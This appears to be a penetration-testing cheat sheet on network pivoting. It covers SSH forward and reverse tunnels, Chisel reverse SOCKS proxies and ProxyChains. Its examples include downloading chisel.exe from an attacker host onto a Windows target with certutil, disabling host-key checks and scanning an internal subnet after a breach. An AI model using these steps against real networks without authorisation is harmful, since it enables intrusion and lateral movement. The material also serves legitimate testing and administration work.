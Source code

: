 # 1. SSH Tunnels

## 1.1. Useful options to use with SSH tunnels

|Options|Description|
|---|---|
|`bind_address`|`0.0.0.0` means bind to all interfaces; defaults to `lo` loopback interface (`127.0.0.1`) if not specified|
|`-f`|Requests ssh to go to background just before command execution|
|`-N`|Do not execute a remote command. This is useful for just forwarding ports (protocol version 2 only).|
|`-o UserKnownHostsFile=/dev/null`|Pipe the host key to `/dev/null` i.e. do not record host key|
|`-o StrictHostKeyChecking=no`|Automatically add host key to host file (which is piped to `/dev/null` in above option|
|`-i /tmp/id_ecdsa`|Use identity file at `/tmp/id_ecdsa`|

## 1.2. Forward tunnels

**Forward**: direction of SSH connection is **same** as direction of access

### 1.2.1. Forward static tunnel

#### Syntax

```console
ssh -L [bind_address:]port:host:hostport [user@]hostname
```

#### Example

![image](images/ssh-forward-static.png)

```console
ssh -L 0.0.0.0:13306:10.0.2.91:3306 -L 0.0.0.0:13389:10.0.2.91:3389 user@10.0.1.81
```

### 1.2.2. Forward dynamic tunnel (a.k.a. forward SOCKS proxy)

#### Syntax

```console
ssh -D [bind_address:]port [user@]hostname
```

#### Example

![image](images/ssh-forward-dynamic.png)

```console
ssh -D 0.0.0.0:1080 user@10.0.1.81
```

## 1.3. Reverse Tunnels

**Reverse**: direction of SSH connection is **reverse** of direction of access

### ☝️ For remote port forwarding:

- By default, the listening socket on the server can only bind to the `lo` loopback interface (`127.0.0.1`)
- Set `GatewayPorts yes` in the server's `sshd_config` to enable binding to other interfaces

```console
sed -i 's/#GatewayPorts no/GatewayPorts yes/' /etc/ssh/sshd_config
```

### 1.3.1. Reverse static tunnel

#### Syntax

```console
ssh -R [bind_address:]port:host:hostport [user@]hostname
```

#### Example

![image](images/ssh-reverse-static.png)

```console
ssh -R 0.0.0.0:13306:10.0.2.91:3306 -R 0.0.0.0:13389:10.0.2.91:3389 user@192.168.2.61
```

### 1.3.2. Reverse dynamic tunnel (a.k.a. reverse SOCKS proxy)

#### Syntax

```console
ssh -R [bind_addr:]port [user@]hostname
```

#### Example

![image](images/ssh-reverse-dynamic.png)

```console
Example: ssh -R 0.0.0.0:1080 user@192.168.2.61
```

# 2. Chisel tunnels

[Chisel](https://github.com/jpillora/chisel) is useful for Windows targets that does not have SSH

## 2.1. Preparing chisel binaries

Prepare server on Kali:

```console
curl -LO https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gzip -d chisel_1.7.7_linux_amd64.gz
mv chisel_1.7.7_linux_amd64 chisel
chmod +x chisel
```

Prepare client binaries for Windows target to download

```console
curl -LO https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz
gzip -d chisel_1.7.7_windows_amd64.gz
mv chisel_1.7.7_windows_amd64 /var/www/html/chisel.exe
```

Download client binaries on Windows target

```console
certutil.exe -urlcache -f -split http://kali.vx/chisel.exe %TEMP%\chisel.exe
```

## 2.2. Chisel server configuration

#### Syntax

```console
chisel server --reverse --port <port>
```

#### Example

```console
chisel server --reverse --port 8080
```

## 2.3. Chisel Client configuration

### 2.3.1. Reverse port forwarding

#### Syntax

```console
chisel client <server> [R:[server-port]:[target-address]:[target-port]]
```

#### Example

![image](images/chisel-reverse.png)

```console
chisel client 192.168.2.61:8080 R:13306:10.0.2.91:3306 R:13389:10.0.2.91:3389
```

## 2.3.2. Reverse SOCKS proxy

#### Syntax

```console
chisel client <server> R:socks
```

#### Example

![image](images/chisel-reverse-socks.png)

```console
chisel client 192.168.2.61:8080 R:socks
```

# 3. ProxyChains

- Consider the reverse dynamic tunnel:
  - The accessing client `192.168.1.51` does not have a route to the `10.0.2.0/24` network
  - The initial breach to the host `10.0.1.81` managed to establish a reverse dynamic tunnel and now have a SOCKS proxy on `192.168.2.61:1080`
- ProxyChains can be used to chain any commands on the accessing client to use the SOCK proxy
- Edit the ProxyChains configuration file at `/etc/proxychains4.conf`

```console
vi /etc/proxychains4.conf
```

- The default ProxyList configuration sets to "tor"

```console
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050
```

- Replace the proxy configuration to the SOCKS proxy created in 2.2.

```console
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4  127.0.0.1 9050
socks5  192.168.2.61 1080
```

- Prepend commands targeted for `10.0.2.0/24` with `proxychains`

```console
proxychains nmap -p- -A 10.0.2.0/24
```
